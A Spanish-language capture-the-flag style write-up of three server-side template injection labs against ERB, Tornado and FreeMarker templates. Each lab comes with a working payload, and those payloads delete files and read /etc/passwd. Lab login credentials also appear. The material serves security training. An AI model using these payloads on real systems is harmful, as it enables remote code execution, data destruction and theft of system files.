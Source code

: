 ## Reto 1: Inyección básica de plantillas del lado del servidor

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor debido a la construcción insegura de una plantilla ERB.

Para resolver el laboratorio, revise la documentación de ERB para descubrir cómo ejecutar código arbitrario y luego elimine el morale.txt archivo del directorio de inicio de Carlos. 

Aprovechamos una vulnerabilidad de Server-Side Template Injection (SSTI) en Ruby (ERB), donde la aplicación evalúa contenido enviado por el usuario sin validación. Mediante la sintaxis de plantillas de ERB, demostramos la ejecución de código del lado servidor, logrando eliminar un archivo del sistema con un simple payload.

```
GET /?message=<%= File.delete("morale.txt") %> HTTP/2
```

## Reto 2:  Inyección básica de plantillas del lado del servidor (contexto del código)

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor debido a la forma en que utiliza de forma insegura una plantilla de Tornado. Para resolver el laboratorio, revise la documentación de Tornado para descubrir cómo ejecutar código arbitrario y luego elimine el archivo. morale.txt  del directorio de inicio de Carlos.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: wiener:peter 

Esta vulnerabilidad de Server-Side Template Injection (SSTI) en el motor de plantillas Tornado. Mediante una combinación de sintaxis de plantillas y código Python embebido, conseguimos ejecutar comandos arbitrarios desde el servidor.

```
blog-post-author-display=user.first_name}}{%import os%}{{os.system('cat /etc/passwd')&csrf=CpgATskIw5lJLBFincXaqsU0jfeFGKA3
```

## Reto 3: Inyección de plantillas del lado del servidor mediante documentación

Este laboratorio es vulnerable a la inyección de plantillas del lado del servidor. Para solucionarlo, identifique el motor de plantillas y utilice la documentación para averiguar cómo ejecutar código arbitrario. Luego, elimine el morale.txt archivo del directorio de inicio de Carlos.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales:
content-manager:C0nt3ntM4n4g3r

Analizando la documentación oficial, identificamos la función ‘new()‘ como vector de ataque para instanciar clases peligrosas, como Execute, que permite lanzar comandos del sistema.

```
Only <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")} left of ${product.name} at ${product.price}.</p>
```